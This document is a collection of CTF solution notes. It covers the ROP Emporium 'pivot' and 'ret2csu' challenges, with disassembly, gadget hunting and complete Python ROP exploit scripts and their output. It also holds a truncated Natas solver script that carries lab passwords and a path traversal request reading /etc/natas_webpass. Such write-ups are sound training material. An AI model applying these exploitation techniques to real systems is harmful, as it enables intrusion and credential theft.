r2 -A ./libpivot.so
- Disassemble
foothold_function: [0x00000890]>pdf @ sym.foothold_function
19: sym.foothold_function ();
0x0000096a 55 push rbp
0x0000096b 4889e5 mov rbp, rsp
0x0000096e 488d3dab0100. lea rdi, str.foothold_function__:_Check_out_my_.got.plt_entry_to_gain_a_foothold_into_libpivot ; sym..rodata
; 0xb20 ; "foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot" ; const char *s
0x00000975 e8b6feffff call sym.imp.puts ; int puts(const char *s)
0x0000097a 90 nop
0x0000097b 5d pop rbp
0x0000097c c3 ret
- As it turns out, it doesn't seem to directly provide any benefit except for a potential
pop rbpgadget, but maybe the library includes something else that might be of use, so list all functions:
[0x00000890]>
afl
0x00000890 4 50 -> 40 entry0
0x0000096a 1 19 sym.foothold_function
[...]
0x00000a81 3 146 sym.ret2win
[...]
ret2winlooks like a winner, so disassemble it to confirm: [0x00000890]>pdf @ sym.ret2win
146: sym.ret2win ();
; var file*stream @ rbp-0x38
; var char *s @ rbp-0x30
; var int64_t var_8h @ rbp-0x8
0x00000a81 55 push rbp
0x00000a82 4889e5 mov rbp, rsp
0x00000a85 4883ec40 sub rsp, 0x40
0x00000a89 64488b042528. mov rax, qword fs:[0x28]
0x00000a92 488945f8 mov qword [var_8h], rax
0x00000a96 31c0 xor eax, eax
0x00000a98 48c745c80000. mov qword [stream], 0
0x00000aa0 488d35df0000. lea rsi, [0x00000b86] ; "r" ; const char *mode
0x00000aa7 488d3dda0000. lea rdi, str.flag.txt ; 0xb88 ; "flag.txt" ; const char *filename
0x00000aae e8adfdffff call sym.imp.fopen ; file*fopen(const char *filename, const char *mode)
0x00000ab3 488945c8 mov qword [stream], rax
0x00000ab7 48837dc800 cmp qword [stream], 0
< 0x00000abc 7516 jne 0xad4
0x00000abe 488d3dcc0000. lea rdi, str.Failed_to_open_file:_flag.txt ; 0xb91 ; "Failed to open file: flag.txt" ; const char *s
0x00000ac5 e866fdffff call sym.imp.puts ; int puts(const char *s)
0x00000aca bf01000000 mov edi, 1 ; int status
0x00000acf e89cfdffff call sym.imp.exit ; void exit(int status)
; CODE XREF from sym.ret2win @ 0xabc
> 0x00000ad4 488b55c8 mov rdx, qword [stream] ; FILE *stream
0x00000ad8 488d45d0 lea rax, [s]
0x00000adc be21000000 mov esi, 0x21 ; '!' ; int size
0x00000ae1 4889c7 mov rdi, rax ; char *s
0x00000ae4 e867fdffff call sym.imp.fgets ; char *fgets(char *s, int size, FILE *stream)
0x00000ae9 488d45d0 lea rax, [s]
0x00000aed 4889c7 mov rdi, rax ; const char *s
0x00000af0 e83bfdffff call sym.imp.puts ; int puts(const char *s)
0x00000af5 488b45c8 mov rax, qword [stream]
0x00000af9 4889c7 mov rdi, rax ; FILE *stream
0x00000afc e83ffdffff call sym.imp.fclose ; int fclose(FILE *stream)
0x00000b01 48c745c80000. mov qword [stream], 0
0x00000b09 bf00000000 mov edi, 0 ; int status
0x00000b0e e85dfdffff call sym.imp.exit ; void exit(int status)
- It opens flag.txt and prints it out, so now we have a potential solution, which will involve looping back to the beginning of the program:
- In the 1st input of the 1st program loop iteration we need to:
- Call
foothold_functionfrom the PLT to resolve its memory address - Print the resolved location of
foothold_functionby placing the GOT pointer into rdi and then immediately callingputsafterwards (note that we must capture this printed resolved address offoothold_functionfor use later) - Return back the very start of the program, but this time we know the location of all the imported libpivot addresses because their positions are relative to the resolved address of
foothold_function
- Call
- In the 2nd input of the 1st program loop iteration we place 40 bytes of padding (because the rbp value isn't important) then followed by our ROP chain that pivots the stack to where our 1st input is stored
- In the 1st input of the 2nd program loop iteration we can put anything here, as it won't be used
- In the 2nd input of the 2nd program loop iteration we place 40 bytes of padding (because the rbp value isn't important) then followed by the resolved address of
foothold_functionwhich we leaked in the 1st program loop iteration
- In the 1st input of the 1st program loop iteration we need to:
- With the plan in place, we just need memory addresses for
start,pop_rdi,puts_pltand the address ofret2winrelative tofoothold_function, so quit radare2 then open the main ELF binary in radare2 again:
$
r2 -A ./pivot
- When we've just opened the binary in radare2 the seek point is already at the program's entry point
0x400760(ourstartlocation to loop back to), which we can confirm usingie:
[0x00400760]>
ie
[Entrypoints]
vaddr=0x00400760 paddr=0x00000760 haddr=0x00000018 hvaddr=0x00400018 type=program
1 entrypoints
- Now search for the
pop rdigadget, which we find out is at0x400a33:
[0x00400760]>
/R pop rdi
0x00400a33 5f pop rdi
0x00400a34 c3 ret
- Then get the location of
putsin the PLT, which we find out is at0x4006e0:
[0x00400760]>
ii ~ puts
2 0x004006e0 GLOBAL FUNC puts
- Lastly, quit radare2 and move on to the next section where we'll get the address of
ret2winrelative tofoothold_function
Address of ret2win Relative to foothold_function
- We'll use
nmto find the offset
$
nm -D ./libpivot.so
[...]
000000000000096a T foothold_function
[...]
0000000000000a81 T ret2win
- 0xa81-0x96a == 0x117 == 279
- i.e. resolved
foothold_functionaddress + 0x117 ==ret2winaddress - All the pieces of the puzzle have been collected, so just write a Python script to get the flag
Python Script to Get the Flag
- The get_flag.py Python script (using Pwntools) is included for reference. Run it from the same directory as the challenge files:
$
python get_flag.py
pivot by ROP Emporium
x86_64
Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7f60a185ef10
Stack pivot: 0x7f60a185ef10
Send a ROP chain now and it will land there
> b' \x07@\x00\x00\x00\x00\x003\n@\x00\x00\x00\x00\x00@\x10`\x00\x00\x00\x00\x00\xe0\x06@\x00\x00\x00\x00\x00`\x07@\x00\x00\x00\x00\x00'
Thank you!
Now please send your stack smash
> b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\xf0\x85\xa1`\x7f\x00\x00\xbb\t@\x00\x00\x00\x00\x00\x10\xef\x85\xa1`\x7f\x00\x00\xbd\t@\x00\x00\x00\x00\x00'
Thank you!
foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot
foothold_function address: 0x7f60a1a6196a
b'\x90\x90\x90\x90\x90\x90\x90\x90'
Thank you!
Now please send your stack smash
> b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x90\x90\x90\x90\x90\x90\x90\x90\x81\x1a\xa6\xa1`\x7f\x00\x00'
Thank you!
ROPE{a_placeholder_32byte_flag!}
ROP Emporium - 08 ret2csu x86_64
ELF Binary Info
$
rabin2 -I ./ret2csu
arch x86
baddr 0x400000
binsz 6441
bintype elf
bits 64
canary false
class ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto false
endian little
havecode true
intrp /lib64/ld-linux-x86-64.so.2
laddr 0x0
lang c
linenum true
lsyms true
machine AMD x86-64 architecture
maxopsz 16
minopsz 1
nx true
os linux
pcalign 0
pic false
relocs true
relro partial
rpath .
sanitiz false
static false
stripped false
subsys linux
va true
- canary false
- nx true (i.e. DEP enabled)
- pic false (i.e. not PIE)
Goal
ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)- Call the ret2win function with arguments:
- rdi = 0xdeadbeefdeadbeef
- rsi = 0xcafebabecafebabe
- rdx = 0xd00df00dd00df00d
Check Buffer Overflow
- Open ELF Binary in GDB (
-qis for quiet mode):
$
gdb ./ret2csu -q
(gdb)r
[...]
> AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGG
Thank you!
Program received signal SIGSEGV, Segmentation fault.
[...]
- Program seg-faulted, so analyse registers and stack to see what amount of data is required to overflow buffer:
(gdb)
i r
[...]
rbp 0x4545454545454545 0x4545454545454545
rsp 0x7ffc24812018 0x7ffc24812018
[...]
(gdb)
x/4gx $rsp
0x7ffc24812018: 0x4646464646464646 0x4747474747474747
0x7ffc24812028: 0x00007fe5d4da300a 0x0000000000000031
- 0x4545454545454545 == "EEEEEEEE"
- 0x4646464646464646 == "FFFFFFFF"
- Therefore buffer is 32 bytes in size, after that is the base pointer followed by the return address
Look for ROP Gadgets
- We know from the challenge's goal (i.e.
ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)), rdi, rsi and rdx registers need to be set - Open ELF binary in radare2 for further analysis:
$
r2 -A ./ret2csu
- Look for ROP gadgets that can control rdx:
[0x00400520]>
/R rdx
[...]
0x00400680 4c89fa mov rdx, r15
0x00400683 4c89f6 mov rsi, r14
0x00400686 4489ef mov edi, r13d
0x00400689 41ff14dc call qword [r12 + rbx*8]
-
With above gadget, rdx and rsi can be controlled if we first have control over r15 and 14 respectively
-
NOTE 1: Gadget ends with a
call, not aret -
NOTE 2: The
call qword [r12 + rbx*8]instruction makes a call to a pointer to a function (i.e. the function's memory address needs to be stored somewhere else in memory, which we then reference) -
NOTE 3: The
mov edi, r13dinstruction will not help set rdi, so rdi will have to be set afterwards separately -
Look for ROP gadgets that can control r12, r14, r15:
[0x00400520]>
/R pop r12
0x0040069c 415c pop r12
0x0040069e 415d pop r13
0x004006a0 415e pop r14
0x004006a2 415f pop r15
0x004006a4 c3 ret
- Look for ROP gadgets that can control rdi:
[0x00400520]>
/R pop rdi
0x004006a3 5f pop rdi
0x004006a4 c3 ret
- As a sidenote, the
pop r12; pop r13; pop r14; pop r15; retgadget and themov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8]gadget are both part of the__libc_csu_initfunction. We can see that by printing the function's disassembly:[0x00400520]>
pdf @ sym.__libc_csu_init[...] < 0x00400674 7420 je 0x400696 0x00400676 31db xor ebx, ebx 0x00400678 0f1f84000000. nop dword [rax + rax] ; CODE XREF from sym.__libc_csu_init @ 0x400694 > 0x00400680 4c89fa mov rdx, r15 ; char **ubp_av 0x00400683 4c89f6 mov rsi, r14 ; int argc 0x00400686 4489ef mov edi, r13d ; func main 0x00400689 41ff14dc call qword [r12 + rbx*8] 0x0040068d 4883c301 add rbx, 1 0x00400691 4839dd cmp rbp, rbx < 0x00400694 75ea jne 0x400680 ; CODE XREF from sym.__libc_csu_init @ 0x400674 > 0x00400696 4883c408 add rsp, 8 0x0040069a 5b pop rbx 0x0040069b 5d pop rbp 0x0040069c 415c pop r12 0x0040069e 415d pop r13 0x004006a0 415e pop r14 0x004006a2 415f pop r15 0x004006a4 c3 ret
- As shown above, starting from address
0x0040069athe gadget is actually able topop rbx; pop rbpbefore performing the pops found earlier, so we could choose to utilise this depending on the situation
Planning ROP Chain
- The
mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8]gadget ends by calling a pointer to a function - Therefore, we need to search the ELF binary for relatively benign functions to call that we can hopefully continue from, so list all functions:
[0x00400520]>
afl
[...]
0x004004d0 3 23 sym._init
0x004006b4 1 9 sym._fini
[...]
- These two functions above might be useful, so disassemble each one
- Disassemble function
_init:
[0x00400520]>
pdf @ sym._init
; CALL XREF from sym.__libc_csu_init @ 0x40066c
;-- section..init:
;-- .init:
23: sym._init ();
0x004004d0 4883ec08 sub rsp, 8 ; [11] -r-x section size 23 named .init
0x004004d4 488b051d0b20. mov rax, qword [reloc.__gmon_start__] ; [0x600ff8:8]=0
0x004004db 4885c0 test rax, rax
< 0x004004de 7402 je 0x4004e2
0x004004e0 ffd0 call rax
; CODE XREF from sym._init @ 0x4004de
> 0x004004e2 4883c408 add rsp, 8
0x004004e6 c3 ret
- Disassemble function
_fini:
[0x00400520]>
pdf @ sym._fini
;-- section..fini:
;-- .fini:
9: sym._fini ();
bp: 0 (vars 0, args 0)
sp: 0 (vars 0, args 0)
rg: 0 (vars 0, args 0)
0x004006b4 4883ec08 sub rsp, 8 ; [14] -r-x section size 9 named .fini
0x004006b8 4883c408 add rsp, 8
0x004006bc c3 ret
- Both
_initand_finifunctions look like they can be used, so I've chosen to use_fini - Search for references to _fini function within the ELF binary via its hex value
0x00000000004006b4(note: need to take into account endianness):
[0x00400520]>
/x b406400000000000
Searching 8 bytes in [0x601038-0x601040]
hits: 0
Searching 8 bytes in [0x600df0-0x601038]
hits: 1
Searching 8 bytes in [0x400000-0x400828]
hits: 1
Searching 8 bytes in [0x100000-0x1f0000]
hits: 0
0x00600e48 hit0_0 b406400000000000
0x004003b0 hit0_1 b406400000000000
-Two matches were found, so pick one (i.e. either 0x00600e48 or 0x004003b0) and that will be the pointer to _fini function
- As a sidenote, the address
0x00600e48is in the_DYNAMICobject, which can be easily viewed in hex view (cycle through view modes usingpkey if necessary until you reach hex view):[0x00400520]>
V @ obj._DYNAMIC[0x00600e00 [Xadvc]0 42% 1440 ./ret2csu]> xc @ obj._DYNAMIC - offset - 0 1 2 3 4 5 6 7 8 9 A B C D E F 0123456789ABCDEF [...] 0x00600e30 0c00 0000 0000 0000 d004 4000 0000 0000 ..........@..... 0x00600e40 0d00 0000 0000 0000 b406 4000 0000 0000 ..........@.....
- A better view of this is in GDB:
(gdb)
x/4gx (void*) &_DYNAMIC + 0x380x600e38: 0x00000000004004d0 0x000000000000000d 0x600e48: 0x00000000004006b4 0x0000000000000019
- And the address
0x004003b0is in the.dynsymsection[0x00400520]>
V @ sym..dynsym[0x004002d0 [Xadvc]0 0% 1440 ./ret2csu]> xc @ section..dynsym - offset - 0 1 2 3 4 5 6 7 8 9 A B C D E F 0123456789ABCDEF [...] 0x004003b0 b406 4000 0000 0000 0000 0000 0000 0000 ..@.............
- So the plan is to:
- Use
pop r12; pop r13; pop r14; pop r15; retto place our desired values into registers (most importantly r15, which will then be moved to rdx in Step 2. below) - Use
mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8]to mov the values into the correct registers (except for rdi, which will need to be set afterwards in a later step) - Keep control of the program after
call qword [r12 + rbx*8]was executed in Step 2. above (continue to section below to see how this was achieved)
- Use
Recovering From a Call Instead of a Ret
- In order to make a successful call to a function using
call qword [r12 + rbx*8], we first need to establish what value we're going to set r12 to - We have determined from the previous sections that we want to call the
_finifunction, which is located at0x4006b4, but we need a pointer to this address due tocall qword [r12 + rbx*8]requiring a pointer - We have also found two pointers to
0x4006b4, and we chose to use0x600e48, so this is value that we wantr12 + rbx*8to evaluate to - If we set rbx to zero, then r12 simply needs to be set to
0x600e48, and we found the gadget for this which was at0x40069a. But what if we didn't manage to find this gadget? This is quite possible because on default settings, using command/R pop rbxin radare2's ROP gadget search tool won't return any results (possibly due to the gadget's length):
$
r2 -A ./ret2csu
[0x00400520]>/R pop rbx
[0x00400520]>
- So if we assume we didn't find the
pop rbxpart of the gadget, then we need to know the value of rbx before this instruction is executed - There are many ways we can determine the value of rbx. This time, I have chosen to create a FIFO, then open two terminals (first for dynamic analysis of the ELF binary which accepts input from the FIFO, second to write to the FIFO).
1st terminal
- Make a FIFO using
mkfifo <name_of_fifo>:
$
mkfifo my_fifo
- Open ELF binary in GDB:
$
gdb ./ret2csu -q
- The
pwnmefunction is imported fromlibret2csu.so, so if you immediately try to disassemblepwnmefunction the addresses won't have been evaluated yet:
(gdb)
disass pwnme
Dump of assembler code for function pwnme@plt:
0x0000000000400500 <+0>: jmp QWORD PTR [rip+0x200b12] # 0x601018 <pwnme@got.plt>
0x0000000000400506 <+6>: push 0x0
0x000000000040050b <+11>: jmp 0x4004f0
End of assembler dump.
- Therefore, use
startto set a temporary breakpoint on main() and start executing a program under GDB:
(gdb)
start
Temporary breakpoint 1 at 0x40060b
[...]
Temporary breakpoint 1, 0x000000000040060b in main ()
- Now try disassembling
pwnmefunction again:
(gdb)
disass pwnme
Dump of assembler code for function pwnme:
[...]
0x00007feee45299bf <+133>: call 0x7feee45297f0 <read@plt>
0x00007feee45299c4 <+138>: lea rdi,[rip+0x34a] # 0x7feee4529d15
0x00007feee45299cb <+145>: call 0x7feee45297a0 <puts@plt>
0x00007feee45299d0 <+150>: nop
0x00007feee45299d1 <+151>: leave
0x00007feee45299d2 <+152>: ret
End of assembler dump.
- Set a breakpoint before the
retinstruction using a relative memory address, because we're going to run the program again but using the previously created FIFO for input instead of regular STDIN:
(gdb) b *pwnme+152
- Print useful info at each breakpoint using
define hook-stop:
(gdb)
define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>i r
>x/12i $rip
>x/8gx $rsp
>end
- Now run the program again using the previously created FIFO (
my_fifo) for input, and inputyto start again from beginning:
(gdb)
r < my_fifo
The program being debugged has been started already.
Start it from the beginning? (y or n) y
- As you can see, GDB is now waiting for input from the FIFO, so that's where the 2nd terminal comes in handy
2nd terminal
- We're going write a Python script that can write raw bytes to STDOUT which can interact with the FIFO we created previously. Once we've determined the correct values to use, this same script can then be easily repurposed into a get_flag script.
$
vim get_flag.py
import struct
import sys
def p64(value: int) -> bytes:
return struct.pack('<Q', value)
def main():
elf = './ret2csu'
# Goal: ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
# ROP gadgets
ret2win_plt = 0x400510
pop_rdi = 0x4006a3
pop_r12_r13_r14_r15 = 0x40069c
mov_rdx_r15__mov_rsi_r14__mov_edi_r13d__call_at_r12_rbx8 = 0x400680
# Constants
padding = b'A'*8*4
rbx_val = 0x00 # if we're lucky, rbx will be zero and we won't need to adjust for it
fini_ptr = 0x600e48 # target value
r12_val = fini_ptr # if we're lucky, rbx will be zero and we won't need to adjust for it
r12_bytes = p64(r12_val)
rdi_bytes = p64(0xdeadbeefdeadbeef)
rsi_bytes = p64(0xcafebabecafebabe)
rdx_bytes = p64(0xd00df00dd00df00d)
# ROP chain
rop_chain = b''
rop_chain += p64(pop_r12_r13_r14_r15) + r12_bytes + rdi_bytes + rsi_bytes + rdx_bytes # pop r12; pop r13; pop r14; pop r15; ret
rop_chain += p64(mov_rdx_r15__mov_rsi_r14__mov_edi_r13d__call_at_r12_rbx8) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8]
rop_chain += p64(pop_rdi) + rdi_bytes # Need to set rdi again
rop_chain += p64(ret2win_plt) # ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
# Get flag
payload = padding + p64(0x00) + rop_chain
sys.stdout.buffer.write(payload)
if __name__ == '__main__':
main()
- Save script and exit using
:wq, then run Python script and write to our FIFO:
$
python get_flag.py > my_fifo
Back to 1st terminal
- Having written to the FIFO using our Python script, GDB will now have continued execution of the program and reached our breakpoint just before the
retinstruction:
> Thank you!
rax 0xb 11
rbx 0x400640 4195904
[...]
=> 0x7f009651f9d2 <pwnme+152>: ret
0x7f009651f9d3 <ret2win>: push rbp
[...]
0x7fff08776b38: 0x000000000040069c 0x0000000000600e48
0x7fff08776b48: 0xdeadbeefdeadbeef 0xcafebabecafebabe
0x7fff08776b58: 0xd00df00dd00df00d 0x0000000000400680
0x7fff08776b68: 0x00000000004006a3 0xdeadbeefdeadbeef
Breakpoint 2, 0x00007f009651f9d2 in pwnme () from ./libret2csu.so
- Unfortunately, rbx is set to 0x400640, as shown above
- Step through each instruction one by one until we're before the
call qword [r12 + rbx*8]instruction to see if rbx changes:
(gdb)
si
- We can see that as we step through instructions we're moving along our ROP chain until we reach
call qword [r12 + rbx*8], but unfortunately rbx is still0x400640:
rax 0xb 11
rbx 0x400640 4195904
[...]
=> 0x400689 <__libc_csu_init+73>: call QWORD PTR [r12+rbx*8]
0x40068d <__libc_csu_init+77>: add rbx,0x1
0x400691 <__libc_csu_init+81>: cmp rbp,rbx
0x400694 <__libc_csu_init+84>: jne 0x400680 <__libc_csu_init+64>
0x400696 <__libc_csu_init+86>: add rsp,0x8
0x40069a <__libc_csu_init+90>: pop rbx
0x40069b <__libc_csu_init+91>: pop rbp
0x40069c <__libc_csu_init+92>: pop r12
0x40069e <__libc_csu_init+94>: pop r13
0x4006a0 <__libc_csu_init+96>: pop r14
0x4006a2 <__libc_csu_init+98>: pop r15
0x4006a4 <__libc_csu_init+100>: ret
0x7fff08776b68: 0x00000000004006a3 0xdeadbeefdeadbeef
0x7fff08776b78: 0x0000000000400510 0x0000000000400520
0x7fff08776b88: 0x00007fff08776c30 0x0000000000000000
0x7fff08776b98: 0x0000000000000000 0x36401d3034d901d6
0x0000000000400689 in __libc_csu_init ()
- If we carry on stepping, we'll segfault due to the
call qword [r12 + rbx*8]not accessing valid memory, so we'll have to adjust for the value of rbx when we set r12 - Our target is for
fini_ptr = 0x600e48 - Current value of rbp is
rbp_val = 0x400640 - Working backwards from when
r12 + rbx*8is evaluated, we will set a very high value for r12 such when rbx*8 is added it overflows and the resulting memory address evaluates to 0x600e48:- r12_val = 0x10000000000000000 + fini_ptr - (rbp_val*8)
- r12_val = 0x10000000000600e48 - (0x400640*8)
- r12_val = 0xfffffffffe5fdc48
- Restart program with FIFO as input
r < my_fifo, then go back to 2nd terminal to update Python script
Back to 2nd terminal
- Update Python script:
[...]
rbx_val = 0x400640 # taken from program's state prior to `call qword [r12 + rbx*8]` instruction
fini_ptr = 0x600e48 # target value
r12_val = 0x10000000000000000 + fini_ptr - (rbx_val*8) # 0x10000000000600e48-(0x400640*8)==0xfffffffffe5fdc48
[...]
- Save script and exit, then run Python script and write to our FIFO:
$
python get_flag.py > my_fifo
Back to 1st terminal again
- Having written to the FIFO using our updated Python script, GDB will now have continued execution of the program and reached our breakpoint just before the
retinstruction - Keep stepping through using
siuntil immediately before thecall QWORD PTR [r12+rbx*8]instruction:
=> 0x400689 <__libc_csu_init+73>: call QWORD PTR [r12+rbx*8]
0x40068d <__libc_csu_init+77>: add rbx,0x1
[...]
rbx 0x400640 4195904
rcx 0x7fe4b96111e7 140620339417575
rdx 0xd00df00dd00df00d -3454841397007486963
rsi 0xcafebabecafebabe -3819410105351357762
rdi 0xdeadbeef 3735928559
[...]
r12 0xfffffffffe5fdc48 -27272120
r13 0xdeadbeefdeadbeef -2401053088876216593
r14 0xcafebabecafebabe -3819410105351357762
r15 0xd00df00dd00df00d -3454841397007486963
rip 0x4006b4 0x4006b4 <_fini>
[...]
- Notice how rdx, rsi, rbx, r12 are set up as expected, hopefully the next step will step into the
_finifunction:
(gdb)
si
=> 0x4006b4 <_fini>: sub rsp,0x8
0x4006b8 <_fini+4>: add rsp,0x8
0x4006bc <_fini+8>: ret
[...]
0x00000000004006b4 in _fini ()
- It worked! After
_finifunction finishes executing, it should return back to__libc_csu_initimmediately after thecall QWORD PTR [r12+rbx*8]instruction, so keep stepping:
(gdb)
si
[...]
=> 0x40068d <__libc_csu_init+77>: add rbx,0x1
0x400691 <__libc_csu_init+81>: cmp rbp,rbx
0x400694 <__libc_csu_init+84>: jne 0x400680 <__libc_csu_init+64>
0x400696 <__libc_csu_init+86>: add rsp,0x8
0x40069a <__libc_csu_init+90>: pop rbx
0x40069b <__libc_csu_init+91>: pop rbp
0x40069c <__libc_csu_init+92>: pop r12
0x40069e <__libc_csu_init+94>: pop r13
0x4006a0 <__libc_csu_init+96>: pop r14
0x4006a2 <__libc_csu_init+98>: pop r15
0x4006a4 <__libc_csu_init+100>: ret
0x4006a5: nop
0x7fff4c14ad08: 0x00000000004006a3 0xdeadbeefdeadbeef
0x7fff4c14ad18: 0x0000000000400510 0x0000000000400520
0x7fff4c14ad28: 0x00007fff4c14add0 0x0000000000000000
0x7fff4c14ad38: 0x0000000000000000 0x936a092fcd7ab098
0x000000000040068d in __libc_csu_init ()
- As we can see above, we're back in
__libc_csu_initas expected, but there are some additional instructions that we're going to have to adjust for before the function returns - The first hurdle we're going to have to overcome is that we don't want the jump to occur here:
=> 0x40068d <__libc_csu_init+77>: add rbx,0x1
0x400691 <__libc_csu_init+81>: cmp rbp,rbx
0x400694 <__libc_csu_init+84>: jne 0x400680 <__libc_csu_init+64>
-
As shown above, rbx has 1 added to itself, rbp is compared to new rbx, then jump happens only if they're not equal. So in order for us to not jump, we want to set rbp to the new rbx value (original_rbx + 1)
-
Then before we return, there are a number of stack related instructions (equivalent to 7 stack entries in total):
0x400696 <__libc_csu_init+86>: add rsp,0x8
0x40069a <__libc_csu_init+90>: pop rbx
0x40069b <__libc_csu_init+91>: pop rbp
0x40069c <__libc_csu_init+92>: pop r12
0x40069e <__libc_csu_init+94>: pop r13
0x4006a0 <__libc_csu_init+96>: pop r14
0x4006a2 <__libc_csu_init+98>: pop r15
0x4006a4 <__libc_csu_init+100>: ret
- We don't care about any of these values at this point, so we can just add nonsense values to the ROP chain for them. Note that the
add rsp,0x8instruction doesn't affect any registers, but it effectively skips over one of our stack entries. - Go back to 2nd terminal to update Python script for hopefully a successful dry run
Back to 2nd terminal again
- Update Python script:
import struct
import sys
def p64(value: int) -> bytes:
return struct.pack('<Q', value)
def main():
elf = './ret2csu'
# Goal: ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
# ROP gadgets
ret2win_plt = 0x400510
pop_rdi = 0x4006a3
pop_r12_r13_r14_r15 = 0x40069c
mov_rdx_r15__mov_rsi_r14__mov_edi_r13d__call_at_r12_rbx8 = 0x400680
# Constants
padding = b'A'*8*4
rbx_val = 0x400640 # rbp value when executing `call qword [r12 + rbx*8]`
rbp_val = rbx_val+1 # to prevent jump after `0x400691 <__libc_csu_init+81>: cmp rbp,rbx`
fini_ptr = 0x600e48 # target value
# NOTE: r12_val=0xfffffffffe5fdc48 so that when `r12 + rbx*8` is evaluated, set high value for r12 such when rbx*8 is added it overflows and the memory address evaluates to 0x600e48
r12_val = 0x10000000000000000 + fini_ptr - (rbx_val*8) # 0x10000000000600e48-(0x400640*8)==0xfffffffffe5fdc48
r12_bytes = p64(r12_val)
rdi_bytes = p64(0xdeadbeefdeadbeef)
rsi_bytes = p64(0xcafebabecafebabe)
rdx_bytes = p64(0xd00df00dd00df00d)
# ROP chain
rop_chain = b''
rop_chain += p64(pop_r12_r13_r14_r15) + r12_bytes + rdi_bytes + rsi_bytes + rdx_bytes # pop r12; pop r13; pop r14; pop r15; ret
rop_chain += p64(mov_rdx_r15__mov_rsi_r14__mov_edi_r13d__call_at_r12_rbx8) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword [r12 + rbx*8]
rop_chain += p64(0x00) * 7 # To maintain stack integrity after calling _fini function (pointed to by r12)
rop_chain += p64(pop_rdi) + rdi_bytes # Need to set rdi again
rop_chain += p64(ret2win_plt) # ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)
# Get flag
payload = padding + p64(rbp_val) + rop_chain
sys.stdout.buffer.write(payload)
if __name__ == '__main__':
main()
- Save script and exit, then run Python script and this time pipe output directly to the ELF binary:
$
python get_flag.py | ./ret2csu
ret2csu by ROP Emporium
x86_64
Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.
> Thank you!
ROPE{a_placeholder_32byte_flag!}
- Success! The script can be left as it is as we've already read the flag, but the sample version included here went a step further (only changed 2 lines of code) by using the subprocess Python module to interact with the ELF binary directly and read the flag itself without having to pipe any output in the shell.
Temporary file for my solutions to OverTheWire - Natas
import re
import sys
import requests
def natas0(verbose=False):
username = 'natas0'
password = username
url = f'http://{username}.natas.labs.overthewire.org'
response = requests.get(url, auth=(username, password))
content = response.text
return re.findall('<!--The password for natas1 is (.*) -->', content)[0]
def natas1(verbose=False):
username = 'natas1'
password = 'gtVrDuiDfck831PqWsLEZy5gyDz1clto'
url = f'http://{username}.natas.labs.overthewire.org'
response = requests.get(url, auth=(username, password))
content = response.text
return re.findall('<!--The password for natas2 is (.*) -->', content)[0]
def natas2(verbose=False):
username = 'natas2'
password = 'ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi'
url = f'http://{username}.natas.labs.overthewire.org/files/users.txt'
response = requests.get(url, auth=(username, password))
content = response.text
return re.findall('natas3:(.*)', content)[0]
def natas3(verbose=False):
username = 'natas3'
password = 'sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14'
url = f'http://{username}.natas.labs.overthewire.org/s3cr3t/users.txt'
response = requests.get(url, auth=(username, password))
content = response.text
return re.findall('natas4:(.*)', content)[0]
def natas4(verbose=False):
username = 'natas4'
password = 'Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ'
headers = {'Referer': 'http://natas5.natas.labs.overthewire.org/'}
url = f'http://{username}.natas.labs.overthewire.org'
response = requests.get(url, auth=(username, password), headers=headers)
content = response.text
return re.findall('Access granted. The password for natas5 is (.*)', content)[0]
def natas5(verbose=False):
username = 'natas5'
password = 'iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq'
cookies = {'loggedin': '1'}
url = f'http://{username}.natas.labs.overthewire.org'
with requests.Session() as session:
response = session.get(url, auth=(username, password), cookies=cookies)
content = response.text
return re.findall('Access granted. The password for natas6 is (.*)</div>', content)[0]
def natas6(verbose=False):
username = 'natas6'
password = 'aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1'
url = f'http://{username}.natas.labs.overthewire.org'
data = {
'secret': 'FOEIUWGHFEEUHOFUOIU',
'submit': 'submit',
}
response = requests.post(url, auth=(username, password), data=data)
content = response.text
flag = re.findall('Access granted. The password for natas7 is (.*)', content)[0]
return flag
def natas7(verbose=False):
username = 'natas7'
password = '7z3hEENjQtflzgnT29q7wAvMNfZdh0i9'
url = f'http://{username}.natas.labs.overthewire.org/index.php?page=../../../../etc/natas_webpass/natas8'
response = requests.post(url, auth=(username, password))
content = response.text
flag = re.findall('<br>\n(.*)\n\n<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->', content)[0]
return flag
def natas8(verbose=False):
import base64
username = 'natas8'
password = 'DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe'
url = f'http://{username}.natas.labs.overthewire.org/'
# Get encoded_secret '3d3d516343746d4d6d6c315669563362' from source code URL
# $encodedSecret = "3d3d516343746d4d6d6c315669563362";
response = requests.get(f'{url}index-source.html', auth=(username, password))
encoded_secret = re.findall(r'\$encodedSecret = "([^"]*)";', response.text)[0]
# Reverse secret based on source code
